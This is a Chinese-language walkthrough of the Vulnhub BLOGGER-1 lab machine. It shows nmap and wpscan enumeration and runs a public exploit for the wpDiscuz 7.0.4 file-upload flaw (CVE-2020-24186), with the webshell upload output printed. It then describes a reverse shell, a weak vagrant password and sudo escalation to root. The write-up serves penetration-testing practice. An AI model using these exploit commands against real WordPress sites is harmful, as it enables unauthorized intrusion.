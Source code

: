 ```yaml
---
layer: article
title: Vulnhub	675 BLOGGER-1
tags: pentest vulnhub Walkthrough
---
```

考点：wpscan,WPDiscuz,base64

靶机链接：<https://www.vulnhub.com/entry/blogger-1,675/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| BLOGGER-1  | 10.0.2.15 |

## 初步打点

### 端口扫描


```bash
$ export rip=10.0.2.15
$ sudo nmap -v  -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:1d:82:8f:5e:de:9a:00:a8:07:39:bd:ac:ad:d3:44 (RSA)
|   256 d7:b4:52:a2:c8:fa:b7:0e:d1:a8:d0:70:cd:6b:36:90 (ECDSA)
|_  256 df:f2:4f:77:33:44:d5:93:d7:79:17:45:5a:a1:36:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### WEB测试

#### dirsearch

发现`/assets/`目录，点了点几个目录，发现wordpress

![1](https://static.iihack.com/vulnhub/675/1.jpg)

绑定域名

![2](https://static.iihack.com/vulnhub/675/2.jpg)

#### wpscan

默认参数扫描发现无插件信息，只好穷举插件了

```bash
$ wpscan --url http://10.0.2.15/assets/fonts/blog/ --plugins-detection aggressive
```

![3](https://static.iihack.com/vulnhub/675/3.jpg)

发现`wpdiscuz`插件

## 获得权限

![4](https://static.iihack.com/vulnhub/675/4.jpg)

```bash
$ searchsploit wpdiscuz
$ searchsploit -m php/webapps/49967.py
$ python 49967.py -u http://10.0.2.15/assets/fonts/blog/ -p /?p=29
---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[59453] | code:[200]
[!] Got wmuSecurity value: a79c058f94
[!] Got wmuSecurity value: 29 

[+] Generating random name for Webshell...
[!] Generated webshell name: aoixhruomuxeias

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/09/aoixhruomuxeias-1663424364.4294.php&quot; 
```

![5](https://static.iihack.com/vulnhub/675/5.jpg)

本地监听，下载反弹shell并访问，获得反弹shell，`/home`获得三个用户

尝试弱口令，发现`vagrant`密码就是`vagrant`

![6](https://static.iihack.com/vulnhub/675/6.jpg)


## 提权

执行`sudo -l`发现`vagrant`可直接切`root`

![7](https://static.iihack.com/vulnhub/675/7.jpg)

### 小彩蛋

```bash
# cat root.txt|base64 -d
cat root.txt|base64 -d
Hey There,
Myself Gaurav Raj, Hacker, Programmer & FreeLancer.
This is my first attempt to create a room. Let me know if you liked it.
Any issue or suggestions for me. Ping me at twitter

Twitter: @thehackersbrain
Github: @thehackersbrain
Instagram: @thehackersbrain
Blog: https://thehackersbrain.pythonanywhere.com


Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
/root/

# cat user.txt|base64 -d
cat user.txt|base64 -d
flag{Y0u_D!D_17 :)}
```

